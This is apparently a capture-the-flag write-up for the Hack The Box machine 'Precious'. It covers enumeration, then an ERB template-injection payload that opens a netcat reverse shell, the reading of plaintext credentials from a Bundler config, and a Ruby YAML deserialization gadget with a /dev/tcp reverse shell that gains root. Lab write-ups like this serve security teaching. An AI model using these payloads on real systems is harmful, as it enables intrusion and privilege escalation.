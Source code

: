 #+TITLE:Precious write up
#+AUTHOR: Wordir
#+DATE:25/03/2024

* Enumeration


as always the first step is to ping the target's IP address to actually verify that it is reachable.
so we are going to use nmap to ping it.

#+begin_bash bash
nmap -sn 10.10.11.189
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-25 16:52 EDT
Nmap scan report for 10.10.11.189
Host is up (0.051s latency).
Nmap done: 1 IP address (1 host up) scanned in 0.05 seconds
#+end_bash


OK it would appear that the host is active, now it's time to run a scan with nmap to see which ports are open:

** namp scan 

#+begin_bash bash
sudo nmap -sC -sV -O 10.10.11.189                                                                                                 
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-25 16:59 EDT
Nmap scan report for 10.10.11.189
Host is up (0.051s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=3/25%OT=22%CT=1%CU=42110%PV=Y%DS=2%DC=I%G=Y%TM=6601
OS:E5B2%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)
OS:OPS(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53C
OS:ST11NW7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
OS:ECN(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%
OS:F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T
OS:5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=
OS:Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF
OS:=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40
OS:%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.91 seconds                                                              
#+end_bash

** Adding to /etc/hosts

as you can see we have port 22(ssh) and port 80(http) open,
since to log in with *ssh* we need a username and password,for the moment we will take a look at the website.

inserting the IP address into our browser a domain is returned, which however the public DNS is unable to resolve, it will therefore be
you need to add the IP address and domain name to *"etc/hosts"*



#+begin_bash bash
sudo vim /etc/hosts

and paste this:

10.10.11.189    precious.htb
#+end_bash

this is what is returned to us:

[[./img/precious.png][img]]

** Feroxbuster

now it's time to enumerate the web server paths, to do this, we are goin to use a tool named *feroxbuster*


#+begin_bash bash
feroxbuster -u http://precious.htb/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt 

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.2
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://precious.htb/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.2
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        1l        2w       18c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       47l       89w      815c http://precious.htb/stylesheets/style.css
200      GET       18l       42w      483c http://precious.htb/
[####################] - 88s    81631/81631   0s      found:2       errors:0      
[####################] - 88s    81629/81629   930/s   http://precious.htb/ 
#+end_bash


well as we can see , no we didn't get much, so now it's time to find out the technologies behind
the website and analyze the requests with burpsuite


** Whatweb

#+begin_bash bash 
whatweb http://precious.htb/   
http://precious.htb/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.18.0 + Phusion Passenger(R) 6.0.15],
IP[10.10.11.189], Ruby-on-Rails, Title[Convert Web Page to PDF],
UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-Powered-By[Phusion Passenger(R) 6.0.15],
X-XSS-Protection[1; mode=block], nginx[1.18.0]
#+end_bash


now it's time to do some research:


** Phusion Passenger:
Phusion Passenger® is a web server and application server, designed to be fast, robust and lightweight.
It takes a lot of complexity out of deploying web apps.
Supports Ruby, Python, Node.js ...


** Ruby on Rails:
Ruby on Rails (simplified as Rails) is a server-side web application framework written in Ruby under the MIT License.
Rails is a model–view–controller (MVC) framework.

Researching a bit about Rails we learn that it is often used with *ERB* (Embedded Ruby) 
a templating system that allows you to embed Ruby code directly into your text files, including *HTML*
*generating dynamic views*

*How does ERB work?*

ERB processes your text files and looks for special tags that contain Ruby code. These tags tell ERB where to execute Ruby code and insert the results into the final output.
There are two types of ERB tags:

*<% Ruby code %>* : This tag is used to execute Ruby code without producing any output. For example, you can use it for looping, conditionals, or variable assignments.

*<%= Ruby code %>* : This tag is used to execute Ruby code and produce output that will be included in the final document. For example, you can use it to insert the value of a variable or the result of a method call.

so now it's time to open burpsuite and do some tests

** Burpsuite

* Exploit

#+begin_bash
POST / HTTP/1.1
Host: precious.htb
Content-Length: 32
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://precious.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://precious.htb/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

*url=http%3a//sda%250a<%25%3d+system("whoami")+%25>*

#+end_bash

well looking at the response it seems that the website ignores our malicious payload and correctly generates the pdf,
(the website in question converts some html text to a pdf)
however we do not receive the output of our command, let's try a reverse shell.

** Reverse shell:

payload : *url=http%3a//sda%250a<%25%3d+system("busybox nc 10.10.14..9 4444 -e sh")+%25>*

results:
#+begin_bash bash
nc -lvnp 4444                
listening on [any] 4444 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.189] 46244
ls
app
config
config.ru
Gemfile
Gemfile.lock
pdf
public
#+end_bash

it worked !!!

now it's time to consolidate the rev with pawncat and after that is time to enumarate the system.


#+begin_bash bash

ruby@precious:/var/www/pdfapp$ whoami
ruby
#+end_bash

we are ruby, on the machine the are two more users, root and henry,
enumerating the system we found nothing that could be an attack vector except some files that we could not execute or modify.
so now since we have port 22 open we'll try to find henry's credentials around the system.

we find an Insecure Gem Configuration: The .bundle/config file is used by Bundler, a Ruby gem manager.
Bundler can cache gem credentials, including API keys or access tokens, in this file.
This is generally not recommended for production environments as it exposes sensitive information.

in fact we find Henry credentials:

#+begin_bash bash
(remote) ruby@precious:/home/ruby/.bundle$ cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
#+end_bash

** SSH login

let's try to login with SSH, logged succesfully, let's get the *user flag*

#+begin_bash bash 
cat user.txt 
4e48f9563d480c07a9b18816b9200550
#+end_bash

time to lists sudo permission with *sudo -l*


#+begin_bash bash
sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb

#+end_bash

so now let's take a look at the script in question:

#+begin_ruby ruby

# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end


#+end_ruby


as we can se the script try to read a file *dependencies.yaml* which is passed with a relative path, so when the script is executed it will search the current directory ,
also we can see that the .yaml file is read with the following function *YAML.load(File.read(file.yaml))* , it's time to serch if the function is someway vulnerable


and yes, we found it:

* Escalation

*Ruby – Insecure Deserialization – YAML (Privilege Escalation)*

Deserialization is the process of transforming serialized data, such as YAML or JSON, back into its original form. Insecure deserialization occurs when untrusted data is deserialized without proper validation, leading to potential security risks. Attackers can exploit this vulnerability to execute arbitrary code, bypass authentication,
or perform other malicious activities.

now to perform the correct exploit we need to see the ruby version.


#+begin_bash bash 
henry@precious:~$ ruby -v
ruby 2.7.4p191 (2021-07-07 revision a21a3b7d23) [x86_64-linux-gnu]
#+end_bash


here the exploit code:

#+begin_ruby ruby

- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'bash -i >& /dev/tcp/<local-ip>/<local-port> 0>&1'"
         method_id: :resolve

#+end_ruby


now launch *henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb* and we get a rev shell as root

#+begin_bash bash 

(remote) root@precious:/root#  whoami ; cd /root ; cat root.txt
root
892ffc8761ddcbb73b41b471ca97765d

#+end_bash
